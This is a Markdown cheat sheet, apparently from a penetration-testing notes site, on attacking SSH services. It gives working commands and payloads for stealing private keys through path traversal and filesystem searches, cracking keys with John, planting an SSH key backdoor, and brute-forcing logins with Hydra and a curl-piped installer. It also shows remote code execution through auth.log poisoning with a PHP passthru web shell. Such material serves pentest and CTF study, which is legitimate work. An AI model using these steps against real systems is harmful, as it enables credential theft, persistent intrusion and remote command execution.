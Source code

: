 ```yaml
---
layout: default
title: SSH
parent: TCP
nav_order: 4-2
---
```

# SSH
## Methodology
- Do you have valid credentials to use?
- Do you have real system-level users in which to access SSH with?
- ALWAYS check for user password re-use
- Dealing with id_rsa files - ALWAYS chmod 600 id_rsa
- Collect user SSH keys if able to read: "id_rsa" e.g. somefile.php?file=../../../../home/user/.ssh/id_rsa
- If able to write, drop a SSH key into the user or root directory for login (/root/.ssh/id_rsa)
- Are you able to read the SSH logs (SSH Log Poisoning): /var/log/auth.log

#### Check the following locations for private keys:
<ul>
<li>/home/* </li>
<li>/root/.ssh/* </li>
<li>/etc/ssh/ssh_config</li>
<li> /etc/ssh/sshd/ssh_config</li>
<li> ~/.ssh/*</li>
</ul>

#### Identify the host for the private key:
Check the following locations:
<ul>
<li> /etc/hosts </li>
<li> ~/.known_hosts </li>
<li> ~/.bash_history </li>
<li> ~/.ssh/config </li>
</ul>

#### Command Reference
<b> Search for files containing SSH Keys:</b>
```
grep -ir "-----BEGIN RSA PRIVATE KEY-----" /home/*
grep -ir "BEGIN DSA PRIVATE KEY" /*
```
<b> SSH with id_rsa </b>
``` ssh -i id_rsa user@$IP ```
<b> Crack id_rsa with John (SSH2John) </b>
``` ssh2john id_rsa > crackthis
john crackthis --wordlist=/usr/share/wordlists/rockyou.txt
```
<b> SSH Keygen & Back Door (post exploitation) </b>
Generate a new SSH key pair with:
```
ssh-keygen -b 2048 -t rsa -f ~/.ssh/new-key-name
chmod 600 new-key-name
```
Drop the 'new-key-name.pub' file into the target /home/usr/.ssh directory.
Connect with:
```
ssh -i new-key-name user@$IP
```

### Tools
- <a href="https://github.com/pwnesia/ssb"> Secure Shell Bruteforcer (SSB) </a>
```curl -sSfL 'https://git.io/kitabisa-ssb' | sh -s -- -b /usr/local/bin ```
```
ssb [-p port] [-w wordlist.txt] [-t timeout]
      [-c concurrent] [-r retries] [-o output] [user@]hostname
```

#### SSH Log Poisoning
RCE via SSH Log Poisoning:
Example PHP web server (capable of viewing the logs):
- Enter something like: ```testlogpoisoning/<?php passthru($_GET['cmd']); ?>``` 
- Refresh the accessible log page - find the newest entry (towards the bottom) and you may see the characters 'testlogpoisoning/'
> this verifies command execution after the format '/' providing executive authority over the machine
``` https://example.com/somefile.php?file=../../../../var/log/auth.log&cmd=id ```
> reopen the file, scroll down and find the results of the command printed


#### SSH Brute Force
- Hydra
``` hydra -V -L UserList -P PasswordList ssh://$IP ```
- SSB

#### SSH 'should' be running?
- Is there a HTTP proxy on the server? SSH may be running but not open to the world - instead of on 0.0.0.0, it may be local on 127.0.0.1
- If this is the case, it is possible to forward out the loopback address with <b> proxytunnel </b>
``` proxytunnel -p $IP:3128 -d 127.0.0.1:22 -a 4444 ```
> Spawn a daemon on our attacking machine (accessible on 4444)
``` ssh user@127.0.0.1 -p 4444 ```

###### [REFERENCES]
<a href="https://highon.coffee/blog/ssh-lateral-movement-cheat-sheet/#what-is-a-lateral-movement"> SSH Lateral Movement Cheatsheet </a>

